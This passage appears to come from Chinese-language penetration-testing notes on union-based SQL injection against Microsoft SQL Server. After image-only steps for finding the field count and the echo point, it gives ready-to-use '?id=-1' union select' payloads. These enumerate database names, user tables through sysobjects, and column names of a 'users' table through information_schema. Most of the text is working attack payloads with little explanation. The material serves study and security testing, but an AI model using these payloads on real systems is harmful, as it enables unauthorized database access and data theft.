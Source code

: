 - 判断字段

  ![image-20230515174430619](../../../../images/image-20230515174430619-1697520287732.png)

- 查找回显

  ![image-20230515174542376](../../../../images/image-20230515174542376-1697520288977.png)

- 爆库

  ```mssql
  ?id=-1' union select 1,2,db_name(num)--
  ```

- 爆表

  ```mssql
  ?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' --
  
  ?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' and name!='[第一条获得的表名]' --
  
  ?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' and name not in ([前面的表]) --
  ```

- 爆字段

  ```mssql
  ?id=-1' union select  top 1  1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' --
  
  ?id=-1' union select  top 1  1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' and COLUMN_NAME and COLUMN_NAME!='id' --
  
  ?id=-1' union select  top 1  1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' and COLUMN_NAME not in ('id','username') --
  ```

